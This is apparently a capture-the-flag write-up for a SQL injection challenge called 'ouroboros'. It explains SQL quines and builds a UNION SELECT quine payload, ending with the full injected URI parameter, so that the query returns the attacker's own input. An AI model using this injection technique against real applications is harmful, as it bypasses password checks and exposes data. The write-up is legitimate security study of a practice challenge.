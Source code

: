 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

A Quine is a program that outputs its own souce code without having access to it.
An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine',
char(34),char(39)),char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine', 
char(34), 
char(39)
)
-- - , char(36), 'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\') AS Quine'
-- - , char(36), 'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',char(34),char(39)),char(36),'$') AS Quine', 
char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\',
char(34),char(39)),char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\',
char(34), char(39)), char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine',
char(34), char(39)), char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;
## Modified Quine

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char( 39)),char(36), 
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
%23
```
### First replacement

```sql
-- - ' UNION SELECT Replace( -- -
Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),
char(39)
)
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - ' UNION SELECT Replace( -- -
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23'
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```
### Second replacement

```sql
-- - ' UNION SELECT -- -
Replace(
'\' UNION SELECT Replace(Replace('$',char(34),char(39)),char(36),'$')%23',
char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
-- - %23 -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - ' UNION SELECT -- -
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
-- - %23 -- -
```
### Putting it all together

The final result of the query is the string after both replacements, as follows:

```sql
' UNION SELECT 
\'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
%23
```

When this SQL query is executed, it will return the following text:

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char(39)),char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)%23
```

We have successfully managed to create a Quine to solve this challenge.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/075e1d88-9e46-4cd7-a829-b8c68814e9d7)
